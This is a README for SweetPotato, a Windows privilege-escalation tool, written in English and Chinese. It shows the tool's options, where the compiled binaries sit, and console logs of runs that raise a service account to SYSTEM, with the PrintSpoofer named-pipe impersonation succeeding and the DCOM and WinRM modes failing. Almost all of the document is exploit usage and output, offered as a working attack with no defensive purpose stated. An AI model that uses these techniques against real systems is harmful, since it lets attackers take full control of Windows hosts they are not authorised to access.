

# SweetPotato 
### A collection of various native Windows privilege escalation techniques from service accounts to SYSTEM

```
C:\Users\Administrator\Desktop>SweetPotato.exe -h

SweetPotato by @_EthicalChaos_

Orignal RottenPotato code and exploit by @foxglovesec

Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery

PrintSpoofer discovery and original exploit by @itm4n

  -c, --clsid=VALUE          CLSID (default BITS: 4991D34B-80A1-4291-83B6-
                               3328366B9097)
  -m, --method=VALUE         Auto,User,Thread (default Auto)
  -p, --prog=VALUE           Program to launch (default cmd.exe)
  -a, --args=VALUE           Arguments for program (default null)
  -e, --exploit=VALUE        Exploit mode [DCOM|WinRM|PrintSpoofer(default)]
  -l, --listenPort=VALUE     COM server listen port (default 6666)
  -h, --help                 Display this help

C:\Users\Administrator\Desktop>

```

# 甜土豆🥔

### 从`service accounts` 服务帐户到`SYSTEM`的各种本机Windows特权升级技术的集合

```
@foxglovesec的Orignal 烂土豆RottenPotato代码和利用
@decoder_it和@Guitro通过BITS WinRM发现武器化的 多汁JuciyPotato
@itm4n的PrintSpoofer发现和原始利用
```


`SweetPotato-CCob\NtApiDotNet\bin\Release\NtApiDotNet.dll`

`SweetPotato-CCob\bin\Release\SweetPotato.exe`




```
C:\Users\Administrator\Desktop>SweetPotato.exe

SweetPotato by @_EthicalChaos_

Orignal RottenPotato code and exploit by @foxglovesec

Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery

PrintSpoofer discovery and original exploit by @itm4n

[+] Attempting NP impersonation using method PrintSpoofer to launch c:\Windows\System32\cmd.exe
[+] Triggering notification on evil PIPE \\IIS85-CN/pipe/e5ebfae5-578d-498a-b870-7641254c8393
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

C:\Users\Administrator\Desktop>

```

### SweetPotato.exe -m Thread

`[!] Failed to parse arguments: Could not convert string `Thread' to type ExecutionMethod for option `-m'.`

### SweetPotato.exe -e DCOM

```
[+] Attempting DCOM NTLM interception with CLID 4991D34B-80A1-4291-83B6-3328366B9097 on port 6666 using method Token to launch c:\Windows\System32\cmd.exe
[!] No authenticated interception took place, exploit failed
```
### SweetPotato.exe -e WinRM

```
[+] Attempting DCOM NTLM interception with CLID 4991D34B-80A1-4291-83B6-3328366B9097 on port 6666 using method Token to launch c:\Windows\System32\cmd.exe
[!] No authenticated interception took place, exploit failed

未经处理的异常:  System.Net.Sockets.SocketException: 以一种访问权限不允许的方式做了一个访问套接字的尝试。
   在 System.Net.Sockets.Socket.DoBind(EndPoint endPointSnapshot, SocketAddress socketAddress)
   在 System.Net.Sockets.Socket.Bind(EndPoint localEP)
   在 SweetPotato.PotatoAPI.WinRMListener()
   在 System.Threading.ThreadHelper.ThreadStart_Context(Object state)
   在 System.Threading.ExecutionContext.RunInternal(ExecutionContext executionContext, ContextCallback callback, Object state, Boolean preserveSyncCtx)
   在 System.Threading.ExecutionContext.Run(ExecutionContext executionContext, ContextCallback callback, Object state, Boolean preserveSyncCtx)
   在 System.Threading.ExecutionContext.Run(ExecutionContext executionContext, ContextCallback callback, Object state)
   在 System.Threading.ThreadHelper.ThreadStart()
```

### SweetPotato.exe -e PrintSpoofer

```
[+] Attempting NP impersonation using method PrintSpoofer to launch c:\Windows\System32\cmd.exe
[+] Triggering notification on evil PIPE \\IIS85-CN/pipe/01ff3c45-6a2b-4788-957f-92612ecdab63
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!
```

Successful!
